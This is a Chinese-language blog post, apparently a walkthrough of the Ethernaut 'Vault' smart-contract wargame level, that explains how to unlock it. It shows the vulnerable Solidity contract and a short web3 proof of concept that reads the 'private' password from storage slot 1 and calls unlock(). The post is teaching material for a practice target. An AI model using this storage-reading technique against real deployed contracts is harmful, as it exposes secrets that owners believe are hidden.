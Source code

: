 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-7'
date: 2022-12-10 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第八关Vault  思路与POC

##### 目标: 想办法设置locked变量为false

#### 先看代码:

##### 获取到密码即可解锁

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  //emm 密码没有加密放在链上,但是设置为私有
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

##### poc思路:point_right:：其实链上的数据都是可以读取的,设置类型为private或者internal仅仅是其他合约不能获取到而已

```js
/*
首先需要了解链上数据在合约中是怎么存储的：每个合约都能够使用2^256数量单位的slot,每个slot大小为32字节
   bool public locked; -> slot 0 index 0 
   bytes32 private password; ->slot 1 index 1
   所以链下需要读取slot1的数据
   web3.eth.getStorageAt('contract address',slotNumber)
*/
await web3.eth.getStorageAt('0xc49187d591C476cEA043F37068880F79a8015F9F',1,(err,res)=>{console.log(res)})
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
//成功解锁
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

